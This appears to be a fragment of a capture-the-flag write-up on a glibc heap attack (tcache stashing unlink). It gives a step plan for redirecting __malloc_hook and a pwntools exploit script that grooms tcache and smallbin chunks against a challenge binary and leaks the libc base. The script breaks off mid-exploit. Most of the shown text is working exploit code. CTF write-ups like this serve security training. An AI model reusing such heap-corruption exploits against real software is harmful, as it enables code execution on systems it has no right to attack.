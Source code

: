 ```amd64

		      tcache_put (tc_victim, tc_idx);
	            }
```
1. set smallbin[0x90]: A --> B
2. set tcache[0x90](6) 
3. set tcache[0x220](2): chunk -> __malloc_hook
4. modify fd,bk of B : fd=A bk=HEAP+0x30-0x10
5. calloc 0x88
6. magic()
7. magic() to modify __malloc_hook


## exp
```python
from pwn import *
context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch='amd64'
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c.ljust(size,'\0'))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=process("./pwn")
#p=remote("buuoj.cn",25327)
for x in range(6):
    add(0,0x88)
    free(0)
for x in range(7):
    add(0,0x288,"n132")
    free(0)
add(0,0x288)
add(1,0x99)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.read(6)+'\0\0')-libc.sym['__malloc_hook']-0x70
libc.address=base

add(0,0x1f8)
free(0)
free(1)
add(0,0x288)
add(1,0x99)
free(0)
add(2,0x1f8)
free(2)
show(2)
p.readuntil("name: ")
```

[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io
